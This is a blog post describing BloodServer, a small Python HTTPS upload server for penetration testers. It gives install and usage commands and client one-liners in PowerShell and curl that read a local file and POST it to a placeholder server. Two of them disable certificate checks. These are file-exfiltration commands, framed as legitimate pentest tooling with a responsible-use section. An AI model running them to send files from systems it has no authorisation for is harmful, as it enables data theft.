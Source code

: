 +++
title = "BloodServer: A Secure File Transfer Tool for Penetration Testing"
draft = false
tags = ["Active Directory", "Windows", "Server", "Python", "Tools"]
keywords = ["Secure file transfer", "Penetration testing tools", "Python server", "HTTPS file transfer", "Basic authentication", "File upload server", "Pentesting utilities", "Secure data transfer", "Python web server", "Penetration testing workflow"]
description = "A comprehensive guide to BloodServer, a lightweight Python-based secure file transfer tool designed for penetration testers. Learn how to set up and use this tool for secure file transfers during security assessments, including HTTPS support, authentication, and client-side integration."
author = "bloodstiller"
date = 2024-10-17
toc = true
bold = true
next = true
+++

## BloodServer: A Secure File Transfer Tool for Penetration Testers {#bloodserver-a-secure-file-transfer-tool-for-penetration-testers}

As a penetration tester, securely transferring files during engagements is crucial. That's why I developed BloodServer, a lightweight Python-based server designed specifically for pentesters who need a quick and secure way to transfer files in controlled environments.

Feel free to contribute to the project or report issues on my [GitHub repository](https://github.com/bloodstiller/bloodserver).


### Key Features {#key-features}

1.  **Easy Setup**: BloodServer can be quickly deployed with minimal configuration.
2.  **Authentication**: Basic authentication is built-in to prevent unauthorized access.
3.  **HTTPS Support**: Optional HTTPS encryption for secure data transfer.
4.  **File Upload Capability**: Allows for easy file uploads via POST requests.
5.  **Configurable Options**: Customize port, username, and password via command-line arguments.
6.  **Graceful Shutdown**: Stop the server cleanly with a simple keyboard command.
7.  **Logging**: Server activities are logged for monitoring and debugging.


### Requirements and Installation {#requirements-and-installation}

BloodServer is lightweight and requires only Python 3.6+ and OpenSSL (for HTTPS support). Installation is as simple as cloning the repository:

```bash
git clone https://github.com/bloodstiller/bloodserver.git
cd bloodserver
```

No additional dependencies are needed as BloodServer uses Python standard library modules.


### Usage Example {#usage-example}

To start the server with default settings:

```bash
python bloodserver.py
```

For HTTPS and custom port:

```bash
python bloodserver.py -p 8443 --https
```

You can also specify a custom username and password:

```bash
python bloodserver.py -u bloodstiller --password bl00dst1ll3r --https
```


### Client-Side File Upload {#client-side-file-upload}

BloodServer supports file uploads via POST requests. Here are examples for both Windows (PowerShell) and Linux systems:


#### PowerShell (Windows) {#powershell--windows}

For HTTP:

```powershell
$wc = New-Object System.Net.WebClient; $wc.Headers.Add("Authorization", "Basic " + [Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes("username:password"))); try { $response = $wc.UploadData("http://serverip:port", [System.IO.File]::ReadAllBytes("path\to\file")); Write-Host "Server response: $([System.Text.Encoding]::UTF8.GetString($response))"; Write-Host "File sent successfully!" } catch { Write-Host "An error occurred: $_" }
```

For HTTPS (ignoring SSL certificate errors):

```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}; $wc = New-Object System.Net.WebClient; $wc.Headers.Add("Authorization", "Basic " + [Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes("username:password"))); try { $response = $wc.UploadData("https://serverip:port", [System.IO.File]::ReadAllBytes("path\to\file")); Write-Host "Server response: $([System.Text.Encoding]::UTF8.GetString($response))"; Write-Host "File sent successfully!" } catch { Write-Host "An error occurred: $_" }
```


#### Linux {#linux}

For HTTP:

```bash
curl -X POST -u username:password -F "file=@/path/to/your/file" http://serverip:port
```

For HTTPS (ignoring SSL certificate errors):

```bash
curl -X POST -u username:password -F "file=@/path/to/your/file" -k https://serverip:port
```

Replace `username`, `password`, `/path/to/your/file`, `serverip`, and `port` with your specific values.

### Code: 
I have placed the code here for convenience. 

{{< ghcode "https://raw.githubusercontent.com/bloodstiller/bloodserver/refs/heads/main/bloodserver.py" >}}

### Security Considerations {#security-considerations}

While BloodServer provides basic security features, it's important to note:

-   It's designed for temporary use in controlled environments only.
-   Always use HTTPS in production environments.
-   The default self-signed certificate is not suitable for production. Use a proper SSL certificate from a trusted CA.
-   Regularly update the authentication credentials.
-   Be cautious when using commands that ignore SSL certificate errors, as they bypass security checks.


### Responsible Use {#responsible-use}

BloodServer is a tool for professional penetration testers and should only be used in environments where you have explicit permission. Misuse of this tool could lead to security vulnerabilities if deployed in inappropriate settings.


### Conclusion {#conclusion}

BloodServer aims to fill a niche need for penetration testers who require a quick, secure file transfer solution during engagements. While it's a powerful tool in the right hands, always remember the importance of responsible use and adherence to security best practices.

Feel free to contribute to the project or report issues on my [GitHub repository](https://github.com/bloodstiller/bloodserver).

Happy hacking!

Bloodstiller
